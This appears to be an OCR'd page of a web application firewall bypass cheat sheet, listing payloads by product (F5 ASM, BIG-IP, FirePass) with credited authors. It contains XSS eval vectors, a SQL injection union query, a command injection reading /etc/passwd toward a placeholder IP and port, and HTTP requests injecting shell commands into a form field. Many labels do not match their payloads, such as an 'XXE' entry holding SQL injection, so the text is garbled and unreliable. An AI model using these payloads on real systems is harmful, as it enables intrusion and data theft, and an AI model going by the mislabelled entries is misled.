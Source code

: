 ### **F5 ASM**

XSS Bypass by @WAFNinja

```
<base href=//knoxss.me?
```

### **F5 BIG-IP**

XSS Bypass by @WAFNinja

```
<j id=x style="-webkit-user-modify:read-write" onfocus={window.onerror=eval}throw/0/+name>H</j>#x
```

XSS Bypass by @Aatif Khan

```
cat$u+/etc$u/passwd$u/bin$u/bash$u <ip> <port>";cat+/etc/passwd+#
```

`report_type` XSS by @NNPoster

```
<input/oninput='new Function`confir\u006d\`0\``'><p/ondragstart=%27confirm(0)%27.replace(/.+/,eval)%20draggable=True>dragme
```

POST Based XXE by @Anonymous

```
0 union/**/select 1,version(),@@datadir
```

Directory Traversal by @Anastasios Monachos

Read Arbitrary File

```
PGVuYWJsZWQ+ZmFsc2U8L2VuYWJsZWQ+<enabled>false</enabled>
```

```
POST /dotDefender/index.cgi HTTP/1.1Host: 172.16.159.132User-Agent: Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10.6; en-US; rv:1.9.1.5) Gecko/20091102 Firefox/3.5.5Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8Accept-Language: en-us,en;q=0.5Accept-Encoding: gzip,deflateAccept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7Keep-Alive: 300Connection: keep-aliveAuthorization: Basic YWRtaW46Cache-Control: max-age=0Content-Type: application/x-www-form-urlencodedContent-Length: 95sitename=dotdefeater&deletesitename=dotdefeater;id;ls -al ../;pwd;&action=deletesite&linenum=15
```

### **F5 FirePass**

SQLi Bypass from @Anonymous

```
GET /c?a=<script> HTTP/1.1Host: 172.16.159.132User-Agent: Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10.6; en-US;rv:1.9.1.5) Gecko/20091102 Firefox/3.5.5Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8Accept-Language: en-us,en;q=0.5Accept-Encoding: gzip,deflateAccept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7<script>alert(1)</script>: aaKeep-Alive: 300
```
